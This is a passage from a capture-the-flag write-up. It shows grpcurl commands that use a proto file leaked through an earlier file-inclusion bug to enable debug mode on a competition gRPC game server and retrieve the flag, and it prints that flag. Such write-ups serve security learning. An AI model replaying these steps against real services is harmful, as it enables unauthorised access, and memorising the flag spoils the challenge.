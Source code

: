 <mark style="color:blue;">(172.188.217.103 was the public ip address for the ctf site)</mark>

using grpcurl, we can try to use the list command directly like this,

```
> grpcurl -insecure protobuf.gemas.tik:443 list
Failed to list services: server does not support the reflection API
```

but unfortunately we cannot directly see it as it is restricted. This is where the LFI from before comes in handy. To communicate with the gRPC server, we need that game.proto file we get from the LFI.&#x20;

with that game.proto file, we can do this,

```bash
> grpcurl -insecure -proto ./game.proto \
-d '{"name": "your-player-name"}' \ 
protobuf.gemas.tik:443 game.GameService/ToggleDebugMode

{
    "message": "Debug Mode ACTIVATED! Use 
    SetDebugOptions to configure boost speed, infinite stamina, 
    and mass multipliers."
}
```

and this to get the flag

```bash
> grpcurl -proto game.proto -insecure -d '{
  "name": "your-player-name",
  "options": {
	"boost_speed_multiplier": 2.0,
	"infinite_stamina": true,
	"mass_multiplier": 10.0
  }
}' protobuf.gemas.tik:443 game.GameService/SetDebugOptions

{

    "message": "Debug options updated: Boost Speed 
    Multiplier=2.0, Infinite Stamina =true, 
    Mass Multiplier=10.0",
    "flag": "GEMASTIK18{g0d_m0d3_4ct1v4t3d_1nf1n1t3_p0w3r}"

}
```

Flag: GEMASTIK18{g0d\_m0d3\_4ct1v4t3d\_1nf1n1t3\_p0w3r}

## Afterthought

It was very interesting as it was my first time encountering with Traefik and gRPC. Thankfully, I was able to solve it in time to get the flag within the duration of the competition.&#x20;

## Links

References:

{% embed url="https://doc.traefik.io/traefik/reference/install-configuration/api-dashboard/#endpoints" %}

{% embed url="https://github.com/fullstorydev/grpcurl" %}
